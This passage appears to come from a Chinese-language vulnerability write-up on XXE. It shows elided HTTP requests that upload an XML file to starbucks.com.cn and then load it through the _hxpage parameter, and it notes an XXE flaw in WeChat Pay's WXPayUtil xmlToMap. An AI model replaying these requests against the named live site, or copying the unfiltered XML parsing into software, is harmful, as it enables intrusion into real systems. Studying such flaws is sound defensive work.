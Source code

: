 ```php
POST /retail/hxpublic_v6/hxdynamicpage6.aspx HTTP/1.1
Host: starbucks.com.cn
...
allow_file_type_list=jpg,png,gif,xml
...

HTTP/1.1 200 OK

...
{
   "fileUrl": "https://starbucks.com.cn/retail/tempfiles/temp_uploaded_641dee35-5a62-478e-90d7-f5558a78c60e.xml"
}
...
```

然后修改\_hxpage 参数为上传的 xml 文件，服务器将尝试解析这个 XML 文件。当这个 XML 文件包含一个外部实体引用，服务器将尝试访问这个引用指向的 URL，造成 XXE 攻击

```php
POST /retail/hxpublic_v6/hxdynamicpage6.aspx?_hxpage=tempfiles/temp_uploaded_641dee35-5a62-478e-90d7-f5558a78c60e.xml HTTP/1.1
Host: starbucks.com.cn
...
...
```

## 3.2、微信支付接口 XXE

WXPayUtil 下的 xmlToMap 方法存在 XXE 漏洞，使用了 DocumentBuilder 危险函数，直接将传入的字符串转换为了 map 集合，并且未对字符串进行过滤，导致攻击者可以传入任意的攻击代码。

![image.png](assets/1700812438-b32b01e4c4fe0ea7e695510b621af22f.png)
